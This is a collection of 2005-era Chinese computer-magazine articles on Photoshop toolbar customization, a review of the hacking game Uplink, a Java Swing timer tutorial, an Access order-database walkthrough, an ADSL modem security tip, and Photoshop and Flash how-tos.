PhotoBars默认的工具条按钮设置并不符合我们的要求，而且大多数按钮是与其功能不对应的，因此需要对其中的按钮进行重新设计和修改。在名为PhotoTools Command的工具条中单击第一个按钮Edit PhotoBars，可以对PhotoBars中的各个工具条进行整体控制(见图3)，在对话框中单击工具条名称前面的“√”标志可以切换该工具条当前是否启用，右侧的按钮可以对工具条进行删除、改名等操作。单击“新建”按钮可以新建一个空的工具栏，不过笔者觉得只要一个工具条，把最常用的功能按钮放进去就行，太多的工具条显示在窗口中反而不容易操作，而且会影响到编辑时的可视范围。PhotoBars默认的Standard工具条包含了许多常用的功能按钮，可以在它的基础上进行重新修改。单击“自定义”按钮可以打开“自定义工具条”对话框，在“类别”中单击名称后可以在右侧的列表中看到该类别中的按钮。例如选择Files Menu 5.5类别后，就可以看到在Photoshop“文件”菜单中对应的“新建”、“打开”、“存盘”等按钮(见图4)。



> 小提示
在展开Photoshop主菜单后，有向右箭头标志的是子菜单，表示下面还有项目，没有箭头的都是项目。

实例1: 曲线调整按钮。该按钮对应的功能位于菜单“图像→调整→曲线”下，是一种典型的“菜单→子菜单→项目”的结构，因此在对话框中的序号应设置为“菜单 2，子菜单 2，项目 4”。

实例2: 图像大小按钮。该按钮对应的功能是“图像”菜单中的“图像大小”，这是一种“菜单→项目”的结构，由于没有子菜单，PhotoBars中规定这时“子菜单”序号应填为“-1”，所以完整的序号设置应该是“菜单 2，子菜单 -1，项目 8”。

实例3: 旋转画布按钮。这里我们希望单击该按钮后能够弹出菜单以选择具体的操作项目，也就是弹出菜单按钮，这里没有指定具体的项目。PhotoBars中也规定此时“项目”应设置为“-1”，因此完整的序号是“菜单 2，子菜单 11，项目 -1”。

> 小提示
如果要调整面板中按钮顺序，可先按下Alt键，再拖动按钮到指定位置。如果按下Alt键后，直接把按钮拖出工具条，则可删除按钮。



①添加按钮。打开相应的“类别”名称，在右边找到要添加的按钮(将鼠标指针悬浮于按钮上可以看到按钮功能提示)，将其拖拽到工具条上的某个位置即可。如果你稍微向右拖动工具条中的按钮离开原位置几秒，这时可以在按钮左边添加一个按钮分隔符，用以区别不同功能的按钮，形成分类。

> 小提示
单击“新建按钮”也可以直接创建一个按钮，但使用该方法创建，你需要先制作一个19像素×17像素大小，16色的图片，并将它复制到剪贴板中，比较麻烦，所以建议直接使用软件自带的按钮进行修改。

②删除按钮。直接将工具条中需要删除的按钮拖出工具条即可删除，或者用鼠标点击工具条中的按钮，然后按DEL键删除。

③按钮修改。修改按钮功能时，必须使工具条处于悬浮状态(双击工具条中的空白处即可使其悬浮)，然后按下Ctrl + Alt组合键，用鼠标双击按钮，打开“按钮编辑器”对话框(见图5)。在“描述”中可以输入该按钮的提示信息，“命令类型”中有三种方式来实现功能，但笔者建议使用最稳定的“菜单”功能来实现。它实际上就是按照Photoshop中“菜单→子菜单→项目”的结构，通过序号来指定按钮的功能，其中序号是按照从左到右，从上到下的顺序，从“0”开始计数的，例如“文件”菜单的序号为“0”，而“视图”菜单的序号就为“6”。这里要注意的是，“子菜单”和“项目”中的分隔符也要作为一个计数项目，例如“文件”菜单中的“新建”命令序号为“0”，而“存储为”命令的序号就是“11”(注意有两个分隔符)。下面我们按照按钮功能的三种类型，分别以实例来介绍如何填写“菜单”序号。



> 小提示
如果哪天你忽然发现启动Photoshop后没有出现PhotoBars工具栏，很可能是你没有注册软件的原因，建议你在安装完PhotoTools后立即进行注册，并将注册表[HKEY_LOCAL_MACHINE\SOFTWARE\Extensis\PhotoTools 3.0\Registration]主键下的数据导出备份，以后只需导入这个注册表文件即可实现注册。

## 备份:让PhotoBars工具条使用更方便

可能你会觉得每次安装这个工具条的步骤似乎太麻烦了一些，其实只是第一次安装时比较麻烦一些，PhotoBars工具条是一个绿色插件，只需要将C:\Program Files\Adobe\Photoshop CS\增效工具\PhotoBars目录下的所有文件备份下来，以后重装系统或Photoshop时就不需要再安装PhotoTools，只要将恢复备份的文件复制到插件目录即可，而且PhotoBars子目录中的文件就是工具条配置文件，这样备份后就不会丢失你辛苦配置好的工具条了。

> 小提示
最后，我再把自己已经制作好的一个工具条配置文件奉献给大家作为参考，里面有最常用的文件新建、打开、保存以及常用的图像编辑和选区操作功能，下载地址是http://www.newhua.com/cfan/200507/configBars.rar，下载后将压缩包中的文件解压到C:\Program Files\Adobe\Photoshop CS\增效工具\PhotoBars\PhotoBars目录中即可(不要修改压缩包中的文件名称，否则无法使用)。当然，你也可以按照自己的要求对这个工具条进行修改，总之，目的就是让自己的操作更方便。

(自由风)

## 黑客 就这样在游戏中炼成

这个是英国 Introversion Software 出品的一个游戏，在其中你将要扮演一个神通广大的黑客，在网络上接受任务，然后破解世界各地的电脑系统。虽然现实中的黑客并非都是如此简单的，但通过玩游戏也可以让你领略到做黑客的滋味。

## 初涉黑客世界

我是一名黑客，梦想着加入最著名的黑客组织Uplink，这样就能完成更多高难任务，同时也可以获得可观的经济回报。首先要拥有自己的引擎(计算机)，如图1所示在该界面



选择“Register As An Agent”注册自己的引擎。接下来输入你的名字和密码，点Done按钮完成注册。当然，只拥有一台计算机是不够的，还需要连接到Internet上，所以在接下来的图2中选择自己的网关地址，我选择了离我最近的Hong Kong(香港)开始了我的黑客生涯。主界面中左下方一排按钮分别为“常用工具，计算机配置，硬盘存储区域，用户级别，金钱数量和电子邮件”。右下角是电子邮件提示区域，我们接收新任务和完成任务都是通过电子邮件实现的(见图3)。





## 我的第一个任务——盗取文件

由于我还是一个业余黑客，Uplink 组织对我的实力还不信任，所以提供给我一个测试任务，这个任务就是从Uplink的Test Server上盗取一个FILE然后Send回Uplink。只有完成了这个任务我才能加入Uplink组织进行更多的黑客活动。

> 小提示：暴力破解密码工具在实际黑客中应用很广泛，暴力破解也叫穷举法，需要我们用相应软件结合丰富的字典文件才能完成，破解过程往往需要很长时间。在没有任何可利用和提示信息的情况下使用该工具是最有效的攻击手段。

我满怀自信地从服务器列表中选择了那个Test Server，并点右上角的Connect连接上去，结果出现的界面令我吃惊。原来该服务器需要用户认证，只有正确的用户名和密码才能进入该服务器。这时候就需要暴力密码破解工具了。

其余的步骤这里就不再介绍了，如果你对这个游戏很感兴趣，那就快去试试吧。总结：这个游戏和普通的黑客游戏最大的区别就在于它与实际结合得很紧密，也就是说游戏中使用的手段与方法都是实际中真正采用的。相信通过不断挑战新任务你会获得更多的黑客理论和实践知识，原来学习黑客也可以这么简单！

(北京 阮征)

## Swing跟数学之游戏设计(3)

谁说编写程序不是一项艺术？那些命令与符号正像一幅工笔画，一笔一画产生出多少变幻莫测的结果。不过，光有骨架的工笔画恐怕也无法成为绝世佳作，那么，今天就让我们来为自己的作品添上最初的绚丽色彩吧。

## 前言

今天我们会为游戏添加动画效果，这将会涉及到图形处理，还有线程的基本概念，这可是一项非常有意思的工作哦。本期源程序可以在http://www.cfan.com.cn/11program/200509/kyodai.zip下载。

上一期我们完成了游戏界面的设计，可是游戏的功能却还十分单薄，比如说几个人同时玩一个游戏，我们怎么比较谁玩得比较好呢，就算是自己一个人在玩，也得知道自己每次的成绩啊。竞技是游戏的主要动力之一，为了提高游戏的可玩性，我们得加入计时和计分的功能才行。

关于游戏的计时和计分功能，因为与我们Swing的主题关系不大，这部分功能的实现我就不说了，如果大家感兴趣的话可以参考一下我的源程序，里面有详细的说明，在这里我们就只讨论一下如何将显示界面做得漂亮。

## JLabel 和 Font

还记得最初的主界面是如何设计的吗？我们将界面分成了三个部分：系统菜单、游戏区、用户交互区。用户交互区的作用就是放置用户的操作及反馈信息，计时和计分功能自然就是放在这里。

```
actionPanel.add(score);
```

看看程序运行的结果，感觉如何？你也许会说：字太小了，而且颜色也太暗了，看不太清楚。没关系，这很容易解决：

```
JLabel score = new JLabel("307");
Font font = new Font("宋体", Font.BOLD, 48);
score.setForeground(Color.yellow);
score.setFont(font);
actionPanel.add(score);
```

在上面的代码中，我们首先创建了一个字体对象font，Font构造函数中3个参数的意义依次为：使用字体的名称、字体的样式(普通、粗体、斜体等)以及字体的大小等；然后，我们使用setForeground来设计JLabel的前景色；最后，我们将JLabel的字体改为我们创建的字体。现在我们再来看看程序运行的结果，是不是效果好多了(见图1)？



在游戏的过程中，只要时间或者分数发生变化，我们就可以使用JLabel.setText(String s)来更新显示。



## 善用Graphics绘制图形

在前面所有的章节中，我们都是使用现成的控件来满足自己的需要，现成的控件虽然使用方便，却不能完全满足我们的要求。这时我们就需要了解一下如何不使用控件来绘制图形。

无论是Swing控件也好，AWT控件也好，他们都会有一个paint(Graphics g)方法，一般情况下我们不会去理它的，然而，当我们需要自己绘制图形的时候，我们就不得不对这个方法有所了解。

为了让大家能够接受自己绘制图形的方法，我们还是从paint(Graphics g)方法讲起吧：paint(Graphics g)方法将控件看作一张空白的纸，当我们需要绘制图形的时候，就可以使用Graphics提供的一些基本方法来进行绘制。为了方便大家理解，我们新建一个Clock类来完成用户时间的显示，代码如下：

```
import javax.swing.*;
import java.awt.*;
public class Clock
extends JPanel{
Font font48 = new Font("serif", Font.BOLD, 48);
public Clock(){
this.setMinimumSize(new Dimension(156, 48));
this.setPreferredSize(new Dimension(156, 48));
}
public void paint(Graphics g){
g.setColor(new Color(111, 146, 212));
g.clearRect(0, 0, this.getWidth(), this.getHeight());
g.setColor(Color.yellow);
g.setFont(font48);
g.drawString("307", 16, 40);
}
}
```

以上内容应该在我们新建的Clock.java文件中，代码并不难读懂，大家可以自己查看文档找到相关函数的使用说明。然后，我们将原来程序中显示时间的代码部分改为：Clock clock = new Clock(); actionPanel.add(clock); 怎么样，运行结果是否相同？虽然此时我们仍然没有消除文字上的锯齿，不过已经对Swing中自己绘制图形有了一个大致的了解。

## 随心所欲的Graphics2D

对于追求最佳视觉效果的我们，文字上的锯齿显示是不能容忍的。那么如何解决这个问题呢？既然这是 Swing 控件显示字体的通病，并且就连 Graphics 也无能为力，看来，我们只有另辟蹊径了。

好在 Sun 也意识到了这一点，因此在 Java 中提供了 Graphics2D 类来解决这种问题。下面，我们将依然使用代码来说明问题：

```
public void paint(Graphics g) {
    Graphics2D g2 = (Graphics2D) g;
    Dimension d = getSize();
    g2.setColor(new Color(111, 146, 212));
    g2.fillRect(0, 0, d.width, d.height);
    g2.setRenderingHint(RenderingHints.KEY_ANTIALIASING,
            RenderingHints.VALUE_ANTIALIAS_ON);
    g2.setColor(Color.yellow);
    g2.setFont(new Font("", Font.PLAIN, 48));
    g2.drawString("123", 16, 40);
}
```

在上述的代码中，我们将 Graphics 对象转换成 Graphics2D 对象后，只需使用简单的一句 setRenderingHint() 就完成了抗锯齿的功能。现在再来看看程序运行的效果，你还满意吗(见图 3)?

## 让文字活起来

渴望无限，创造无限。如果能把计分和计时功能做成动画，一定会更加生动。最简单的做法就是让数字依次变化，比如时钟：我们可以每隔 1 秒钟就显示一次数值，比如上面的代码，我们可以简单改为：

```
for (int i = 1000; i < 2000; i++) {
    g2.setColor(new Color(111, 146, 212));
    g2.fillRect(0, 0, d.width, d.height); // 清除当前绘图区域
    g2.setColor(Color.yellow);
    g2.drawString("" + i, 16, 40);
    try {
        Thread.sleep(1000); // 延时 1 秒钟
    } catch (InterruptedException ex) {
    }
}
```

当你执行以上代码以后便会知道，上面的代码实际上有问题！我们使用了 Thread.sleep(1000)来让程序进行延时，每当执行 Thread.sleep()的时候，程序会进入休眠状态，不响应其他任何操作，就连显示也不会更新，所以也就无从显示动画效果了。

线程(Thread)是惟一的解决方法，它可以让程序在同一个时刻完成两件或者两件以上的事情。想让你的程序支持线程，你可以选择以下两种方法的任意一种：

+ ① public class Clock extends Thread
+ ② public class Clock implements Runnable

第一种方法要求你的程序继承 Thread 类，可是，如果继承 Thread 类之后，我们就没有办法再继承 JPanel 了，因为 Java 不支持多重继承，如果不能继承 JPanel，那么 paint(Graphics g)也没有用武之地了。而第二种方法只要求你实现 Runnable 接口，而 Java 允许一个类实现多个接口，所以我们应该选择第二种方法。

首先需要把 Clock 的声明改成 public class Clock extends JPanel implements Runnable，然后添加 public void run() {}。

上面是实现 Runnable 接口的最基本的架构。有的时候，为了让线程能够具备开始和停止的功能，我们还得再扩充一下。首先是线程的开始：

```
public void start() {
    startTime = System.currentTimeMillis();
    thread = new Thread(this);
    thread.start();
}
```

这里我们使用了 System.currentTimeMillis()来获得开始时的系统时间，以便于以后计算用户的游戏时间。

然后是运行的过程：

```
public void run() {
    Thread currentThread = Thread.currentThread();
    while (thread == currentThread) {
        long time = System.currentTimeMillis();
        usedTime = time - startTime;
        try {
            repaint();
            thread.sleep(100);
        } catch (InterruptedException ex) {
        }
    }
}
```

第一句话 Thread currentThread = Thread.currentThread();获得系统当前的线程，然后在循环中判断是否为当前线程，这在在线程比较多而且线程之间的依赖性比较强的情况下非常有必要。repaint() 是 AWT/Swing 控件的方法，它会自动调用 paint(Graphics g)方法以便重新绘制显示区域。最后，我们使用了 thread.sleep(100)来让程序每隔 0.1 秒运行一次。由于 thread.sleep()方法会抛出异常，所以我们还需要捕获异常。

由于 paint(Graphics g)每次显示的内容都会不同，因此，我们需要使用一个全局变量 usedTime 来记录当前的时间，在输出的时候，我们应写成：

```
g2.drawString("Time:" + getTime(), 16, 40);
```

其实 getTime()方法是我们自己写的，其作用是获得用户当前使用的时间，并将时间格式化后传出。最后，别忘记了在我们的主程序中调用 start()方法，如：

```
Clock clock = new Clock();
clock.start();
actionPanel.add(clock);
```

小方糖

Thread 的前世今生
最早的 Thread 提供了 Thread.start()、Thread.pause()、Thread.resume()、Thread.stop()这三个方法来完成线程的开始、暂停和结束功能，然而，在后来的 JDK 中，Sun 却不推荐使用 pause()/resume()和 stop()方法，理由是 pause()和 stop()方法在某些场合会让程序进入死锁状态，因此，在你的程序中，假如你使用了 Thread 的以上几种方法，编译的时候编译器会告诉你：

> "xxx.java": stop() in java.lang.Thread has been deprecated
at line xx, column xx

这时候你就要注意了！

## 小结

今天我们学习了使用 Graphics/Graphics2D 来满足自己特殊的需要，再也不需要看控件的脸色了。同时，我们也知道了如何使用线程来让程序同时进行多个操作，并且结合了以上两点来实现计时功能。但是我没在这里完成计分功能，就把这当作留给大家的小小作业吧！

(武汉 张剑)

## 菜鸟学用 Access 轻松打造花店订单系统

任务名称: 打造花店订单系统
任务描述: 小特的 MM 开了一家花店，生意特别火，招了三个小工还有点忙不过来。每天都有不少人通过电话或直接到花店订购鲜花，大多数客户还希望能在指定时间将所购鲜花送到指定地点。小特使用 Access 帮 MM 定制了一个花店订单系统：通过这个系统，可以记下每一位客户的姓名、电话、地址以及所要的鲜花品种、送花方式及时间、地点等；这个系统能根据客户订购鲜花的品种及数量自动计算出费用，如果需要送花服务还会加上运费，并记录下付款方式；它可以同不同角度对资料分类，比如能分别以购花者、雇员、鲜花品种等角度显示某段时间内花店的销售状况；还可以帮你快速查询出花店内各种鲜花的库存，看看哪些鲜花快要缺货了，好马上去订货等。

任务扩展: 本文的第二部分，将着重讲解如何修改由模板创建的数据库以适应各人不同的需要，有兴趣的读者可以试着改造本系统，使其能应用于公司销售、快餐店、书店、超市、商场、小卖部等多种场合。

## 十分钟创建花店订单系统

Access 中带有大量的模板，涉及到我们工作、生活的多个方面，借助于这些模板，我们就能快速地建立起自己所需要的应用，非常方便。

第一步：启动 Access XP(或其他版本)，执行“文件→新建”命令在右侧打开“新建文件”窗格。本例我们将借用 Access 自带的模板文件快速建立数据库，所以在“新建文件”窗格中单击“通用模板”打开模板对话框，单击其上的“数据库”标签。Access 中提供了多种实用的模板，这里双击“订单入口”项，在打开的对话框中输入新建数据库的文件名(本例中为“花店订单.mdb”)，单击“创建”按钮后将启动数据库向导窗口，连续单击“下一步”按钮(每一步向导中都可以根据提示进行一些个性化设置，如：增、减表格项目，选择窗体界面风格等)，最后单击“完成”，系统便开始自动创建数据库了。

第二步：数据库创建好后第一次打开，会提示输入自己公司的一些情况，单击“确定”，再在如图 1 所示的对话框中输入自己公司的基本信息，单击右上角的“X”按钮关闭它即可启动该数据库的入口界面了。



小提示
如果在模板向导的最后一步，取消了对“是的，启动该数据库”项的选择，则该数据库创建好之后不会自动启动。这时可在“花店订单:数据库”窗口上，单击“对象”下的“窗体”，再在右侧双击“切换面板”窗体，同样可以启动本数据库。

第三步：自动生成的花店订单入口界面(即“主切换面板”)非常漂亮。单击其上第二个按钮“输入/查看 其他信息”进入次级界面，首先单击“输入/查看 雇员”按钮打开雇员记录窗口，可如图 2 所示输入雇员的基本资料，如：姓名、头衔、电话等(按需填写，不用每一项都填)。因为花店有小李、小王、小张三位员工，所以输入完小李的资料后，可单击窗口下方“记录”浏览控制中的右方向箭头按钮，继续输入下一位雇员的资料。输入完毕，单击雇员窗口右上角的“X”按钮关闭它，资料会自动保存到相应数据表中。



第四步：公司信息在开始打开数据库时就已经设置了，这里直接跳过。接下来单击“输入/查看 产品”打开产品记录窗口，同第三步一样输入鲜花品种、单价等信息。

步中的方法，输入各种鲜花产品的名称及单价，如“爱的玫瑰”、“春天的心情”、“满天星辰”、“卿卿吾爱”等。接下来以同样方法输入付款方式（支票、现金）、送货方式（三环以内、三环至五环之间、五环之外、外省市）等记录。最后单击“返回主切换面板”按钮返回。

第五步：在主切换面板中单击“输入/查看按客户分类的订单”按钮，打开“按客户分类的订单”窗口，这里可以输入每一位订购鲜花的客户资料（姓名、地址、电话等）。输入基本资料后，单击窗口下方“订单”按钮打开订单窗口，这里可以记录客户具体订购情况：单击“雇员”右侧下拉按钮，你会发现下拉列表中的名单正是之前设置的雇员名单，这个订单由谁负责就点选谁；点选“产品”下面的单元格，会显示出下拉按钮，其下拉列表正是之前设置的各种鲜花产品名称，根据客户订购情况点选即可，单价会自动显示出来，在数量单元格中输入订购的数量，则各种金额便自动计算出来了；在订单窗口下方可以记录订购日期、送货日期、送货方式等，输入附加的“运费”后，该费用会自动加到总金额中；单击“送货选项”则可以记录鲜花递送的接收人姓名、地址、电话等细节（见图3）。



通过“记录”浏览控制按钮可以增加更多客户的资料并在多个客户之间浏览查找。

在“按客户分类的订单”窗口中，单击下方的“付款”按钮，可记录客户付款的方式（现金、支票或是信用卡）、金额及付款日期等。

第六步：在主切换面板上单击“预览报表”按钮，即可按客户分类的营业额、按雇员分类的营业额、按产品分类的营业额等多种方式查看销售业绩了，一目了然。

## 改造模板，为我所用

上面是通过大众化的模板建立起的数据库，还需要作一些改动才适合花店经营的一些具体情况，比如在上面的例子中，至少应该添加一个库存量报表预览功能，这样才能知道哪些鲜花产品需要及时订购，哪些鲜花还有很多积货需要进行打折优惠处理。下面就在上例的基础上，自己动手增加这个功能。如果模板还需要其他功能，请大家借鉴本例操作自行添加。

### 第一步：创建新的库存量表

接上例，按 F11 键调出“花店订单：数据库”主窗口，单击窗口左侧“对象”下面的“表”，在窗口右侧，我们可以看到模板已经自动创建的多个表，但是其中并没有“库存量”表，下面就让我们自己来创建一个。

双击“使用设计器创建表”打开表设计窗口，如图 4 所示，在“字段名称”的第一个单元格中输入“库存 ID”，然后单击其后的“数据类型”单元格，从下拉列表中选择“自动编号”。单击“字段名称”的第二个单元格，输入“产品名称”，数据类型使用默认的“文本”类型。单击“字段名称”的第三个单元格，输入“库存量”，然后单击其后的“数据类型”单元格，在下拉列表中选择“数字”类型。

执行“文件→保存”命令保存新建的表，在“另存为”对话框中将表的名称设置为“库存量”，单击“确定”按钮保存。

### 第二步：为库存量表创建输入窗体及报表



在“花店订单：数据库”主窗口左侧，单击“对象”下面的“窗体”，再在右侧双击“使用向导创建窗体”，在打开的向导窗口中，从“表/查询”下拉列表中选择刚刚创建的“表：库存量”，然后单击“>>”按钮将“可用字段”中的所有字段加到“选定的字段”列表中。接下来连续单击“下一步”按钮，并根据提示为窗体设置不同的风格即可。

单击“对象”下面的“报表”，再双击右侧“使用向导创建报表”项打开报表向导，将“表/查询”设置为“表：库存量”，接着连续单击“下一步”即可完成库存量报表的制作。

### 第三步：将库存量窗体及报表添加到切换面板中

如图 5 所示，转到主切换面板窗口上，单击“更改‘Switchboard Items’”按钮（或执行“工具→数据库工具→切换面板管理器”菜单命令）打开切换面板管理器窗口，选中“窗体切换面板”项，接着单击右侧的“编辑”按钮打开面板编辑窗口，单击其上的“新建”又会打开一个小窗口，在“文本”框中输入该窗体将显示在切换面板中的标题（如：“输入/查看 库存量”），单击“命令”下拉按钮并选择“在‘编辑’模式下打开窗体”，在“窗体”下拉列表中选择“库存量”。单击“确定”后，在上一层窗口的“切换面板上的项目”列表中就会多出一个“输入/查看 库存量”项目，选中它，然后单击“向上移”将它移到“返回主切换面板”项的上面。



### 小提示

如果你不小心关掉了主切换面板窗口，可在数据库主窗口上切换到“对象”中的“窗体”，再双击“切换面板”即可打开它。

连续单击“关闭”按钮返回到主切换面板窗口上，此时单击“输入/查看其他信息”按钮，在打开的次级界面上就会看到刚刚添加的“输入/查看 库存量”按钮，单击它就可以打开输入窗体输入库存产品的名称及数量了。这里输入的数据将自动保存在库存量数据表里，并可以显示在库存量报表中。

将库存量报表加到报表切换面板中的过程与上面的过程相似，这里就不详细介绍了，只要注意在选择切换面板时要选“报表切换面板”项，在新建报表面板项目时，将“命令”项设置为“打开报表”，“报表”项选择“库存量”报表即可。返回到主切换面板窗口，单击“预览报表”按钮，就可以在打开的二级界面中看到添加进去的“显示库存量报表”项目了。单击这个项目按钮，即可显示出库存量报表，这样，花店中的所有库存就一目了然了。

## 借鉴模板  重新包装个人图书管理系统

与通过模板创建的花店订单系统相比，第 6 期上我们创建的个人图书管理系统是不是显得很业余？现在就让我们把它重新包装一次吧。

第一步：打开依据《一小时学会 Access 轻松打造个人图书管理系统》一文创建的数据库文件“个人图书管理.mdb”。在该例中，我们创建了三个数据表“图书基本信息”、“分类”、“介质”，其中“图书基本信息”已建立对应的窗体，现在再分别为“分类”、“介质”以及查询中的“英语书”都建立一个相应的窗体。

第二步：执行“工具→数据库工具→切换面板管理器”菜单命令，将会弹出一个提示框，询问是否创建一个有效的切换面板，单击“是”按钮创建，进入切换面板管理器窗口。因为我们所创建的个人图书管理系统比较简单，所以只有一个默认的主切换面板就够了，选中它再单击“编辑”按钮打开面板编辑窗口，通过“新建”按钮增加五个项目，前面四项分别对应前面所建立的四个窗体，最后一个项目用来执行退出命令。“退出”项目按钮的设置过程与其他项目的设置完全一样，只不过在“命令”中选择的不是打开窗体或报表，而是选择的“退出应用程序”项。

第三步：现在在个人图书管理数据库的“窗体”中，除了我们自己创建的几个窗体外，还会有一个“切换面板”窗体，它是执行“切换面板管理器”时自动生成的，双击打开它，这个数据库就像一个真正的应用程序一样运行了，单击上面相应的按钮，可以查看、编辑相应的数据表信息以及进行退出数据库的操作等。不过运行界面有些简单，可以为它增加图形装饰一下：单击数据库主窗口上的“设计”按钮进入窗体设计状态，右键单击窗体左侧的图形控件（即绿色块），选择“属性”打开图像属性窗口，在其“格式”标签下单击“图片”右侧的“…”按钮，选择一个图像文件。此时再单击数据库主窗口上的“打开”按钮运行窗体，将会如图 6 所示，看起来很专业吧？


（北京 一页）

## ADSL 防黑小技巧

最近网络上很多人通过盗个人用户 ADSL 账号刷 QQ 币，现在很多 ADSL Modem 都集成了路由功能，所以 ADSL 账户和密码都保存在 Modem 里面，当外网用户知道正确的路由密码后就可以得到用户的上网账户。

一般 ADSL Modem 安装到用户家后都没有修改默认密码，只要使用如 ADMIN、root 等弱口令就能轻松登录 Modem 管理页面。其实我们可以进行简单防护：在本地命令行下输入 ipconfig，查看 ADSL Modem 的 IP，然后通过 IE 连接路由的 80 端口进行设置，将路由设置连接端口设置成一个不常用端口，如 1499 这样就算对方猜到你的密码也无法访问路由。另外，在本机上的防火墙也要设置好。同时，注意以后访问 ADSL Modem 管理页面时，要在 IE 地址栏中输入 “IP 地址:端口” 访问。

（河北 香草天空）

## 足不出户 时尚发型随心变

时尚发型，每个人都想拥有，但是否每一个时尚发型都适合自己呢？拿自己的头发一次一次做实验，未免太浪费金钱和宝贵的时间了，不如在Photoshop中为自己试试妆吧，然后再确定做成哪种发型及颜色。

在本例中，你可以根据自己的喜好将头发染上各种各样的色彩。拓展本例中的操作，你还可以在头发上洒些亮片，换一种颜色的唇彩和眼影，甚至换一种发型等。

第一步：启动Photoshop，打开一幅人物照片（见图1），最好是自己的照片。


第二步：单击工具箱底部的快速蒙版按钮，或按快捷键 Q 进入快速蒙版编辑状态，此时通道调板上会多出一个Quick Mask通道来，可见蒙版实际上就是一个临时的 Alpha 通道。接着按快捷键 D 设置默认的颜色（前景色为黑色，背景色为白色），然后选中工具箱里的画笔工具，仔细地把人物的头发涂抹出来，画笔的笔刷要设置为硬边的。注意，此时画笔涂出来的不是黑色，而是50%透明度的红色，这是蒙版色，它并不是真正画到图像上的颜色。如果不小心涂到了头发之外的区域，可按快捷键 X 将前景和背景色对调一下（此时前景色为白色，背景色为黑色，再次按 X 键可恢复默认颜色），然后用画笔擦去多余的蒙版色即可。最后效果如图2所示。



### 小提示

在涂抹人物头发的过程中，通过快捷键控制好画笔的大小，可加快操作的速度：
- Shift+]：增加画笔的硬度
- Shift+[：降低画笔硬度
- [：减小画笔
- ]：增大画笔

第三步：人物的头发涂抹好后，按快捷键 Q 退出蒙版编辑状态，这时我们会发现刚才没有被涂抹到的地方都变成了选区。但是我们想要的选区是头发部分，所以按快捷键 Shift+Ctrl+I 反选一下就可以选中所有的头发了。最好再把选区羽化一下，以免后面操作产生的效果太过生硬，可执行菜单命令“选择→羽化”，在打开的对话框中设置2个像素羽化值，确定即可。

第四步：选取好头发之后，现在就开始为头发染上时尚的颜色吧。点击图层面板下方左起数第四个小按钮（创建新的填充或调整层），从弹出菜单中选择“色相/饱和度”（见图3）。这时，图层面板上多了一个图层，即调整层了。



第五步：随之会弹出“色相/饱和度”对话框（见图4），单击选中右下角的“着色”项，这里的明度采用默认值就可以了，只需调整色相和饱和度即可，一边拖动滑钮一边注意观察头发颜色的变化，直到调出自己喜欢的色彩为止，设置完毕，单击“好”按钮确认。本例中，笔者将照片中人物的头发调成了有光泽的棕红色，据我所知，这种颜色的染发膏差不多六十多元一盒呢。



### Just Do It

将选取的头发复制出来，然后通过图层合并的方法将其合并到其他人物的头像上面，就可以达到换发型的目的。不过在换发型时需要注意以下两点：

1. 蒙版只是Photoshop选取对象的众多方法中的一种，其他还有选取工具法、路径法、通道法、滤镜提取法等，大家应根据照片的实际情况来选用。
2. 进行换发型操作时，拷贝过来的发型与脸部接口处会留下一些痕迹，可通过模糊工具、橡皮图章工具仔细地修复一番，才能达到自然的效果。另外，在选取发型时，一定要注意两张照片中人物的姿势、动作是否相称，尤其要注意脸部是否面向同一个方向。

### 网络大补贴

- 1. 给MM的黑白照片上色
  网页地址:http://www.photoshopcn.com/article/photoshop/503.html
  重点体会：这个实例可作为本文的延伸内容来看，本例中皮肤、头发、眼影、唇彩等的色彩调整非常细腻。
  延展练习：本例的文字说明部分太过简单，不过大家可通过一步一步的图示来理清作者的操作思路。找一张自己的黑白照片来练习一下吧。
- 2. “反转负冲”人像处理一例
  网页地址:http://www.photoshopcn.com/article/photoshop/536.html
  重点体会：包括“色相/饱和度”命令在内的多种色彩调整命令的使用。
  延展练习：找一张新拍的数码照片，借鉴上例中的方法，让照片产生一种沉旧的色彩，体现一种沧桑感。
- 3. 妙用图层混合模式抠图
  网页地址:http://www.photoshopcn.com/article/photoshop/534.html
  重点体会：选取特定图像时，不一定非得使用工具箱中的选取类工具，巧用其他功能往往能达到意想不到的效果，本例可体会到图层混合模式的强大功能。
  延展练习：找一张人物发型复杂而背景相对简单的图片，试验一下本例中的方法。

（广东 冯健儿）

## 可移动可报时的桌面小闹钟

有些读者反映，CFan今年第4期上刊登的《打造超酷Flash桌面小时钟》一文，虽然好玩但不太实用，能否再为它增加一些功能呢？比如可以用鼠标将它拖到桌面任意的位置，从而不影响桌面上的其他操作，还有就是为它增加定时闹铃的功能，就更实用了。本文将为大家解决这两个问题，制作一个可移动可报时的桌面小闹钟。本文所涉及的素材及FLA源文件，可从 http://www.newhua.com/cfan/200507/clock.rar 下载。

### 随意移动 我行我酷

本例是第4期“桌面小时钟”的升级版，主要有以下几点不同：

- ★时、分、秒及表盘元件整合在同一个影片剪辑中，是一个相对独立的“个体”，这样既有利于通过ActionScript脚本整体控制它，又可以方便地在其他动画剪辑中引用（比如将其“挂”在房间剪辑的墙上，它依然能独立运行）；
- ★给每个实例命名一个惟一的实例名称，这样就能在同一段代码中引用它们进行整体控制，而不是像以前的那个例子一样分别为元件实例输入代码。

第一步：启动Flash MX 2004，新建一个Flash文档，单击下方属性面板上的“大小”按钮，在弹出的文档属性对话框中将尺寸大小设置成1024×768像素（最好与自己的屏幕区域一样大小，比如也可以设置成800×600像素或1280×1024像素等）。

第二步：单击菜单“插入→新建元件”（快捷键为 Ctrl + F8）新建一个影片剪辑元件，命名为“小时钟”，将自动进入元件编辑窗口。如图1所示，连续点击“插入图层”按钮再增加几个图层，双击图层名称，由下往上分别改名为“表盘”、“秒针”、“分针”、“时针”、“时钟控制”。在“表盘”图层的第1帧中，既可以导入第4期中我们用到的那个表盘图像，也可以如图1中所示，用Flash提供的椭圆工具及文本工具自己画一个简单的表盘（圆心要与轴点对齐）。



第三步：按 Ctrl + F8 组合键再创建一个名为“秒针”的影片剪辑，在其元件编辑窗口中使用直线工具，以中间的轴点为起点，由下往上画一条直线（同时按下 Shift 键可确保画出的是垂直线）作为秒针图形。用同样方法再创建名为“分针”、“时针”的影片剪辑（作为时、分、秒的三条直线，其长短、粗细及色彩最好要有所不同）。按 Ctrl + L 组合键调出元件库面板，双击其上的“小时钟”返回小时钟元件编辑窗口中，从元件库面板中将刚才制作的时、分、秒剪辑拖到小时钟剪辑相应图层的第1帧中，并在属性面板左侧将它们的实例名称分别命名为：hour_mc、min_mc、sec_mc（见图1）。

